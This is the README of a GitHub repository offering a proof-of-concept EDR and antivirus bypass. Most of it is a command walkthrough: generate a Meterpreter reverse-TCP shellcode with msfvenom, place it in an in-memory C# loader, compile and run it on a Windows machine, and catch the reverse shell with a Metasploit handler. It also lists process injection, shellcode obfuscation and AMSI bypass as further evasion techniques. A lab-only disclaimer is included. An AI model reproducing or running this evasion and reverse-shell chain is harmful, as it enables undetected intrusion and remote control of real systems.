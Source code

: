 # EDR-Bypass
**Created By:** Mohammad Almahamid  
**Twitter:** [@j6_mu](https://twitter.com/j6_mu)

---

## Overview
This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using memory injection techniques.  
The code executes shellcode in memory to create a reverse shell in a lab environment for educational purposes.

> **Disclaimer:** Use this code responsibly in environments where you have explicit permission.

---

## Preview
![EDR Bypass Screenshot](loader.png)

---



```bash
# =======================================================
# EDR Bypass PoC - Full Lab Setup Instructions
# Author: Mohammad Almahamid (@j6_mu)
# =======================================================

# Step 1: Clone the repository
git clone https://github.com/cyberx-1/EDR-Bypass.git
cd EDR-Bypass

# Step 2: Modify Shellcode
# Replace byte[] buf in loader.cs with shellcode for your lab IP and port
# Generate shellcode using msfvenom:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp

# Step 3: Compile the C# code
csc loader.cs
# Optional: Compile in Release mode for optimization
csc -optimize loader.cs

# Step 4: Start a listener on Kali Linux
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run

# Step 5: Execute the payload on Windows VM
loader.exe

# Step 6: Interact with the reverse shell
meterpreter > sysinfo
meterpreter > shell

# Step 7: Optional Advanced Evasion Techniques
# - Process injection into trusted processes
# - Shellcode obfuscation
# - AMSI bypass techniques
# Only use in a safe lab environment
